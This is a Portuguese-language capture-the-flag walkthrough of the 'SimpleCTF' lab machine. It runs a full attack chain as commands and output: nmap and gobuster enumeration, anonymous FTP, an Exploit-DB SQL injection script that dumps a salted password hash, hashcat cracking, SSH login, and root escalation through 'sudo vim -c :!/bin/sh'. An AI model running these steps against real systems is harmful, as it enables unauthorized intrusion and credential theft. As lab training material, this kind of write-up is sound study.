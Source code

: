 # Lab: SimpleCTF (Easy Mode)

## TASKs:

1.  
2.  
3.  

---

```
export IP=10.10.169.195
```

---

## 1) Enumeração com Nmap
```bash
nmap -A 10.10.169.195
```
**Resultados:**
```
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
```

---

## 2) Acesso FTP
```bash
ftp 10.10.169.195
```
> **Nome de utilizador:** anonymous

```bash
ftp> ls
ftp> cd pub
ftp> mget *
ftp> bye
```
**Ficheiro Encontrado:** `ForMitch.txt` (informa que a password é fraca)

---

## 3) Enumeração com Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IP -x php,sh,txt,html,js,css,py
```
**Resultado:**
```
http://10.10.169.195/simple (Tipo de Site: CMS)
```

---

## 4) Exploração - Vulnerabilidade SQLi no CMS
> **ExploitDatabase:** Identificado vuln no CMS (SQLi -> ficheiro Python a descarregar para exe)
```bash
python2 46635.py -u http://10.10.169.195/simple
```
**Credenciais Obtidas:**
```
Salt for Password: 1dac092e9fa6bb2
Username: mitch
Email: admin@admin.com
Password Hash: 0c01f4468bd75d7a84c7eb73846e8d96
```

---

## 5) Quebra de Hash com Hashcat
```bash
hashcat -O -a 0 -m 20 0c01f4468bd75d7a84c7eb73846e8d96:1dac092e9fa6bb2 /usr/share/wordlist/rockyou.txt
```
**Senha Encontrada:** `secret`

---

## 6) Acesso via SSH
```bash
ssh mitch@10.10.169.195 -p 2222
```
> **Password:** `secret`

```bash
$ whoami
$ bash
$ ls
$ cat user.txt
```
**Mensagem:**
```
G00d j0b, keep up!
```

---

## 7) Elevação de Privilégios
```bash
ls /home
```
**Usuário Identificado:** `sunbath`

```bash
sudo -l
```
**Vulnerabilidade Identificada:** `vim` (leverage to spawn a privileged shell)

> Identificar um bypass para o Vim -> **GTFOBins** (vim -> sudo)
```bash
sudo vim -c ':!/bin/sh'
```
```bash
# whoami
```
**Resultado:** `root`

```bash
# cd /root
# ls
# cat root.txt
```
**Mensagem Final:**
```
w3ll d0ne. You made it!
```

